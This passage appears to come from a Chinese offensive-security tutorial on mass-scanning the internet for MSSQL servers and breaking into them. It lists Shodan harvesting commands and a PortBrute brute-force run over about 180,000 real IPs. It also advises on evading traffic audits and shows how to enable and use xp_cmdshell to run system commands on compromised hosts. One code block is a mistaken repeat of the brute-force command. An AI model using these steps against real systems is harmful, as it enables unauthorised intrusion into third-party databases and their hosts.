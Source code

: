 2.5 外网环境下收集目标并进行弱口令检测
---------------------

### 2.5.1 第一步：使用网络空间搜索引擎，获取全网开放 1433 端口的 IP 列表

首先安装 shodan 的库:

pip install shodan

然后初始化 key ，然后下载相关数据：

```php
1.  shodan init shodanAPIKEY  
2.  shodan download --limit 1000000 mysql.txt product:"MS-SQL"  
```

### 2.5.2 第二步：使用 PortBrute 对其进行暴力枚举尝试

外网爆破可以使用这种方式，如果是内网尝试爆破弱口令，不宜使用批量扫描工具，建议使用 osql、sqlcmd 等原生工具，进行单个账号密码尝试，以减少被流量审计的可能性。

关于 MSSQL 的弱口令问题，外网存在的可能性比较小，我尝试收集了 18 万 IP，使用弱口令字典：sa:sa

首先将目标 IP 列表整理成 ip:port 格式，然后执行命令：

```php
1.  PortBruteWin.exe -f mssqlipport.txt -u user.txt -p pass.txt -t 100  
```

发现若干存在弱口令的问题，接下来就可以进行实战演练了。

### 2.5.3 第三步：尝试使用 xp\_cmdshell 执行系统命令

首先看看当前数据库的版本信息，使用命令 SELECT @@version，发现数据库版本为 MSSQL 2012，执行下面的命令查看是否存在 xp\_cmdshell：

```php
1.  PortBruteWin.exe -f mssqlipport.txt -u user.txt -p pass.txt -t 100
```

![21.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-4064ebac93519d1f867111e1d577db199e77d3f1.png)  
看到是存在的，那么直接使用 xp\_cmdshell 执行命令：

```php
1.  exec master..xp\_cmdshell 'whoami'  
```

![22.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-a7e4cd576d1f39969bf4e490ecc38c7ffdf2bf2d.png)

发现报错了，去看看是什么原因导致的，谷歌搜索 mssql error 15121,网上的资料说是需要启动 xp\_cmdshell，执行语句：

```php
1.  EXEC sp\_configure 'show advanced options', 1  
2.  RECONFIGURE  
3.  EXEC sp\_configure 'xp\_cmdshell', 1  
4.  RECONFIGURE  
```

![23.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-afbac299718a10177a04e496bb063ea8e6ad4372.png)  
发现又报错了，这次是 5808，再次搜索看看问题，可能目标系统是 mssql 2008 以上，所以需要改为下面的命令，就可以执行成功。
